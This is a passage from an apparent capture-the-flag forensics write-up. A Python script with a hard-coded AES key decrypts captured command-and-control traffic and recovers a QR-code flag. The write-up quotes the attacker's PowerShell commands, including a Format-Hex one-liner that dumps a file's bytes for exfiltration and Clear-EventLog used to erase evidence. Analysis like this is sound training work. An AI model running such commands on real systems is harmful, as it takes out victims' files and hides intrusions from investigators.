5696561454f776e63726d6f525676335156362b776f34715a2f6a5578374b4c58616b6d4768686e723470364b34644c77543751524f6953747556557975784e72374269734568544b5535507069537643776f456c322b7659762b58665843386b414b372b555a684a376a573345654e416c47713376776f2b50453044465546614e2f79694373615951616e7735733651322b626f4e70683779624b4255316a4b6a2b63716e436834636c756d365a496d584b6d75674b7a7a514935423539356b6b67636932476d714b3863746e5537784f7556503447483356516b74344874746265452b513951444d3551614938414f693257556c2b2b5733626576715066347753506e6b346b41632f2f6353647048492b3930552f4e7a7369776c4d513856416f506a4a2b62325648574f35312f3155715855546e73577143744d30386474486e786d77646670336d484c45314444576b2b4678752f362b684e51467634684d356972344943354a773264686a593065354a5a38733164643238732b447a4b4e6b3841614d712b68304f4e576b7a4b365946316d573862584e5348615032416739456e5035304b50505a7a746663776a55697937645952326f587149504a6953394e777a6f696a4a2f6c6c5446504e4f48372f765535704270636737492b72716b722f61794357327369336d64346573324d72323170307a38697473724445727261776a583763623330725237424545592b3966557a2f757853766166754647304345555a7864586c6a73504e7a39342f414e75347141694171785a6552774d722b4d5a7379582f64595a6f52456c3734736b346d4f6730696c4c686d546646464e3664307465316573
```

`script`
```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key, data):
    key = base64.b64decode(key)
    
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')

key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='

with open('result.txt', 'r') as file:
    task=0
    for line in file:
        line = line.strip() 
        if line:
            hex_data = bytes.fromhex(line)
            
            plaintext = decrypt_string(key, hex_data)
            task+=1
            print(f"{task, plaintext}")
```

`Result`

```shell
(1, 'VALID mrlminhtuan-pc\\ieuser\r\n\n')
(2, 'VALID \r\nPath                     \r\n----                     \r\nC:\\Users\\IEUser\\Documents\r\n\r\n\r\n\n')
(3, 'VALID \r\n\r\n    Directory: C:\\Users\\IEUser\\Documents\r\n\r\n\r\nMode                 LastWriteTime         Length Name                                                                 \r\n----                 -------------         ------ ----                                                                 \r\nd-----          6/2/2023  10:13 AM                Custom Office Templates                                              \r\n-a----         5/24/2023   9:36 AM           2100 Calc.txt                                                             \r\n-a----          6/2/2023   3:46 PM         112707 clean.jpg                                                            \r\n-a----          1/3/2022   6:53 AM         843332 Lux.jpg                                                              \r\n-a----          6/2/2023   3:48 PM            345 Math Test.png                                                        \r\n-a----          6/2/2023   3:46 PM          75974 otp.jpg                                                              \r\n-a----         5/24/2023   9:35 AM            427 Todo.txt                                                             \r\n-a----         5/23/2023   4:57 PM         102831 xinomifinancialreport2023.pdf                                        \r\n\r\n\r\n\n')
(4, 'VALID 89504e470d0a1a0a0000000d494844520000003a0000003a0800000000c4d015f4000001204944415478dab5968b0ec3200845fdff9feeba7455ee4313c499b46e96e31820b7adc1b8eef1bde3b7715f8c247af5f1408fc930e50d5edb2adafafc2e8e59afc01c456340d8edffa06886c1398bc6475c1218b8655e532856d6fa5ad67002bd64c440609ac8ae80b2530e462084b280faa28b0700b7e63fb28f8e8fd19de822ae9bdf4ba131380ccddacd6fbd806afa19e694416b3d80b2a1066bea701a451730199c03129012ca4d8d0b4e83144ece163a3b465ce8c6fd12aa25a6874e85a586fa06869bb18898e424515d64a9e2a643ad740bf52dc54915b6f21aaa72a042ac1dace77513f5bae75eecb88dd750efac968b29ce12ea5e7ef45818693986aa84f086f442700465c1d4f210d9d844ed816adae844240be8acd8384c3a6fa31f99524e0722949b720000000049454e44ae426082\r\n\n')
(5, 'VALID \r\n  Max(K) Retain OverflowAction        Entries Log                                                                      \r\n  ------ ------ --------------        ------- ---                                                                      \r\n  20,480      0 OverwriteAsNeeded       3,340 Application                                                              \r\n  20,480      0 OverwriteAsNeeded           0 HardwareEvents                                                           \r\n     512      7 OverwriteOlder              0 Internet Explorer                                                        \r\n  20,480      0 OverwriteAsNeeded           0 Key Management Service                                                   \r\n     128      0 OverwriteAsNeeded          48 OAlerts                                                                  \r\n                                              Security                                                                 \r\n  20,480      0 OverwriteAsNeeded       3,280 System                                                                   \r\n  15,360      0 OverwriteAsNeeded       2,495 Windows PowerShell                                                       \r\n\r\n\r\n\n')
```

Alternatively, you can decode it directly in the `script` as follows with the initial `result.txt` segment.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from urllib.parse import unquote, unquote_plus
import base64

def decrypt_string(key, data):
    key = base64.b64decode(key)
    
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')

key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='

with open('result.txt', 'r') as file:
    task=0
    for line in file:
        line = line.strip() 
        if line:
            hex_data = bytes.fromhex(line)
            
            deurl = unquote_plus(hex_data.decode('utf-8'))
            plaintext = decrypt_string(key, deurl)
            task+=1
            print(f"{task, plaintext}")
```

In general, the process can be understood as follows.

1. The attacker will send a command through `/task` with the PowerShell command `whoami` and receive a response in `/result`

```shell
VALID mrlminhtuan-pc\ieuser
```

2. Next, the attacker executes the `pwd` command and receives a response

```shell
VALID 
Path
----
C:\Users\IEUser\Documents
```

3. The third command is `dir`

```shell
VALID 

    Directory: C:\Users\IEUser\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/2/2023  10:13 AM                Custom Office Templates
-a----         5/24/2023   9:36 AM           2100 Calc.txt
-a----          6/2/2023   3:46 PM         112707 clean.jpg
-a----          1/3/2022   6:53 AM         843332 Lux.jpg
-a----          6/2/2023   3:48 PM            345 Math Test.png
-a----          6/2/2023   3:46 PM          75974 otp.jpg
-a----         5/24/2023   9:35 AM            427 Todo.txt
-a----         5/23/2023   4:57 PM         102831 xinomifinancialreport2023.pdf
```

4. Next, the hacker will use the command 

```shell
powershell (Format-Hex '.\\Math Test.png' | Select-Object -Expand Bytes | ForEach-Object { '{0:x2}' -f $_ }) -join ''")
```

to extract the image bytes in a format of 2 characters per byte.

`Result`

```shell
VALID 89504e470d0a1a0a0000000d494844520000003a0000003a0800000000c4d015f4000001204944415478dab5968b0ec3200845fdff9feeba7455ee4313c499b46e96e31820b7adc1b8eef1bde3b7715f8c247af5f1408fc930e50d5edb2adafafc2e8e59afc01c456340d8edffa06886c1398bc6475c1218b8655e532856d6fa5ad67002bd64c440609ac8ae80b2530e462084b280faa28b0700b7e63fb28f8e8fd19de822ae9bdf4ba131380ccddacd6fbd806afa19e694416b3d80b2a1066bea701a451730199c03129012ca4d8d0b4e83144ece163a3b465ce8c6fd12aa25a6874e85a586fa06869bb18898e424515d64a9e2a643ad740bf52dc54915b6f21aaa72a042ac1dace77513f5bae75eecb88dd750efac968b29ce12ea5e7ef45818693986aa84f086f442700465c1d4f210d9d844ed816adae844240be8acd8384c3a6fa31f99524e0722949b720000000049454e44ae426082
```

5. Next, there are commands to list system event activities and delete them after receiving, with the intent to hinder the investigation process.

```shell
(5, 'VALID powershell Get-EventLog -List')
(6, 'VALID powershell Clear-EventLog')
```

`result`

```shell
VALID 
  Max(K) Retain OverflowAction        Entries Log
  ------ ------ --------------        ------- ---
  20,480      0 OverwriteAsNeeded       3,340 Application
  20,480      0 OverwriteAsNeeded           0 HardwareEvents
     512      7 OverwriteOlder              0 Internet Explorer
  20,480      0 OverwriteAsNeeded           0 Key Management Service
     128      0 OverwriteAsNeeded          48 OAlerts
                                              Security
  20,480      0 OverwriteAsNeeded       3,280 System
  15,360      0 OverwriteAsNeeded       2,495 Windows PowerShell
```

At this point, we can extract the `flag` from the `hex bytes` of the image, which is a `QR code`




Alternatively, you can use the render image function on [CyberChef](https://cyberchef.org/#recipe=Render_Image('Hex')&input=ODk1MDRlNDcwZDBhMWEwYTAwMDAwMDBkNDk0ODQ0NTIwMDAwMDAzYTAwMDAwMDNhMDgwMDAwMDAwMGM0ZDAxNWY0MDAwMDAxMjA0OTQ0NDE1NDc4ZGFiNTk2OGIwZWMzMjAwODQ1ZmRmZjlmZWViYTc0NTVlZTQzMTNjNDk5YjQ2ZTk2ZTMxODIwYjdhZGMxYjhlZWYxYmRlM2I3NzE1ZjhjMjQ3YWY1ZjE0MDhmYzkzMGU1MGQ1ZWRiMmFkYWZhZmMyZThlNTlhZmMwMWM0NTYzNDBkOGVkZmZhMDY4ODZjMTM5OGJjNjQ3NWMxMjE4Yjg2NTVlNTMyODU2ZDZmYTVhZDY3MDAyYmQ2NGM0NDA2MDlhYzhhZTgwYjI1MzBlNDYyMDg0YjI4MGZhYTI4YjA3MDBiN2U2M2ZiMjhmOGU4ZmQxOWRlODIyYWU5YmRmNGJhMTMxMzgwY2NkZGFjZDZmYmQ4MDZhZmExOWU2OTQ0MTZiM2Q4MGIyYTEwNjZiZWE3MDFhNDUxNzMwMTk5YzAzMTI5MDEyY2E0ZDhkMGI0ZTgzMTQ0ZWNlMTYzYTNiNDY1Y2U4YzZmZDEyYWEyNWE2ODc0ZTg1YTU4NmZhMDY4NjliYjE4ODk4ZTQyNDUxNWQ2NGE5ZTJhNjQzYWQ3NDBiZjUyZGM1NDkxNWI2ZjIxYWFhNzJhMDQyYWMxZGFjZTc3NTEzZjViYWU3NWVlY2I4OGRkNzUwZWZhYzk2OGIyOWNlMTJlYTVlN2VmNDU4MTg2OTM5ODZhYTg0ZjA4NmY0NDI3MDA0NjVjMWQ0ZjIxMGQ5ZDg0NGVkODE2YWRhZTg0NDI0MGJlOGFjZDgzODRjM2E2ZmEzMWY5OTUyNGUwNzIyOTQ5YjcyMDAwMDAwMDA0OTQ1NGU0NGFlNDI2MDgy)





`flag` is `CHH{D0n't_w0rRy_n0_st@r_wh3rE}`

---
